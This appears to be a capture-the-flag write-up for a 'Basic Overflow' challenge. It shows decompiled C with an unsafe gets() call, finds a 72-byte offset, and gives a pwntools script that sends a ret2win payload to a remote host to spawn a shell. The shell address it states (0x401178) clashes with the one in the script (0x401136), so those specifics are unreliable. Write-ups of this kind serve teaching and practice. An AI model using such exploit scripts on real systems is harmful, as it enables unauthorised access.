





# Basic Overflow


In this challenge we got executable with no canary no pie

when we run it and put long string we got `segmentation fault`



when we open the file with [ghidra](https://ghidra-sre.org/)

we find 2 functions

```c
undefined8 main(void)

{
  char local_48 [64];
  
  gets(local_48);
  return 0;
}
```
and 
```c
void shell(void)

{
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}

```
now its clear that this is return2win type of challenge.

what we need is just overwrite the address on the instruction pointer to make the program execute shell function 

first we need to find the address of shell function we can do that using Ghidra or any debugger I prefer using [gdb-pwndbg](https://github.com/pwndbg/pwndbg)



now we have the address of shell function `0x0000000000401178`

we need to find how many bytes do we need to overwrite `RSP` it can be calculated manually but i prefer using `cyclic` tool, we create pattern using cyclic of 100 byte and see when the program crashes 



we can see the program crashes at pattern `jaaaaaaa`

lets find now how many bytes it takes to crash



we find 72 do we need to write 72 byte then the address of shell function

I like to do that using [pwntools](https://docs.pwntools.com/en/stable/) in python 

```python
from pwn import *
p = remote('34.123.15.202',5000)
payload = b"A"*72
payload += p64(0x401136)
p.sendline(payload)
p.interactive()
```
and by running the exploit script we got this


